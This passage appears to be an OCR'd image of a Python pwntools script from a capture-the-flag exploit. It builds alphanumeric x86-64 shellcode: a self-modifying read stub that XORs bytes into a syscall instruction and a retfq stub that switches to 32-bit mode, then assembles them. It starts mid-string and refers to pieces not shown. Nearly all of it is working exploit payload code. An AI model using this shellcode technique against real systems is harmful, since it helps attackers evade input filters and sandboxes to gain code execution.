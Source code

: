 ```python

'''
shellcode_read = '''
/*read(0,0x40404040,0x70)*/
push 0x40404040
pop rsi
push 0x40
pop rax
xor al,0x40
push rax
pop rdi
xor al,0x40
push 0x70
pop rdx
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x57],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x58],cl
push rdx
pop rax
xor al,0x70

'''

shellcode_retfq = '''
push rbx
pop rax

xor al,0x40

push 0x72
pop rcx
xor byte ptr[rax+0x40],cl
push 0x68
pop rcx
xor byte ptr[rax+0x40],cl
push 0x47
pop rcx
sub byte ptr[rax+0x41],cl
push 0x48
pop rcx
sub byte ptr[rax+0x41],cl
push rdi
push rdi
push 0x23
push 0x40404040
pop rax
push rax
'''

shellcode += shellcode_mmap
shellcode += append
shellcode += shellcode_read
shellcode += append

shellcode += shellcode_retfq
shellcode += append
shellcode = asm(shellcode,arch = 'amd64',os = 'linux')
print hex(len(shellcode))
```